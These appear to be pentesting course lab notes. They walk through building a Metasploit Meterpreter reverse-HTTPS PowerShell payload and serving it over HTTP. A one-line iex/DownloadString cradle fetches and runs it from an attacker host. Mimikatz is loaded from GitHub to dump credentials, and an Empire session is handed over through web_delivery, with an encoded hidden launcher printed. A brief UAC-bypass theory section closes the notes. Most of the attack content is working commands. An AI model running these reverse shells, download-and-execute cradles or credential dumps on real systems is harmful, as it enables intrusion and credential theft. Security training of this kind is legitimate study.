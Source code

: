 ### Metasploit to Create PowerShell Payloads - Lab

**Use Metasploit to create PowerShell payloads**.

`msfconsole -q`, `search multi handler`, `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter_reverse_https`, `show options`, `set LPORT 443`, `set LHOST <AttackerIP>`, `exploit -j`.

`msfvenom -p windows/x64/meterpreter_reverse_https lport=443 lhost=<AttackerIP> -f psh-reflection -o /root/Desktop/payload.ps1`.
`cd /root/Desktop`, `python3 -m http.server 80`.

`powershell iex (New-Object Net.WebClient).DownloadString('http://<AttackerIP>/payload.ps1')`.

`shell`, `powershell`.

**PowerShell extension for Meterpreter**.

This extension allows us to execute PowerShell command strings, import scripts, .NET assembly DLLs.

`load powershell`, `help`.

`powershell_shell`, `Get-Process | Where-Object {$_.ProcessName -match "svchost"}`.

`powershell_execute 'iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz'`

**Pass an existing active agent session from PowerShell-Empire over to Metasploit**.

`search web delivery`, `use exploit/multi/script/web_delivery`, `set PAYLOAD windows/meterpreter/reverse_https`, `shopw options`, `set SRVHOST <AttackerIP>`, `set LHOST <AttackerIP>`, `show targets`, `set TARGET PSH`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.11.2:4444
[*] Using URL: http://10.10.11.2:8080/Klji3v5GH ←
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBl ...
```

`usemodule powershell/code_execution/invoke_metasploitpayload`, `info`, `set URL http://10.10.11.2:8080/Klji3v5GH`, `set Agent Klji3v5GH`, `execute`.

`sessions -i 1`, `shell`, `powershell`.

### UAC Bypass with PowerShell Script - Theory/Lab

In the Windows environment, ensuring process integrity is vital for system security.
Processes are categorized into three integrity levels: Medium, High, and System, each representing different access privileges.

Privilege auto-elevation allows programs to escalate from Medium to High privileges automatically, often specified in the application manifest (checkable with some programs, e.g. "PEStudio"). While this can streamline operations, it also poses security risks, potentially exploited by malware.
Despite auto-elevation, some programs remain vulnerable to UAC bypass exploits, undermining User Account Control's security measures. These exploits leverage system vulnerabilities to execute code with elevated privileges, circumventing UAC protections. Vulnerabilities persist even in programs with privilege auto-elevation attributes.
To mitigate UAC bypass risks, maintaining system and application updates is crucial, alongside implementing robust cybersecurity practices like antivirus software, firewalls, and appropriate security settings.
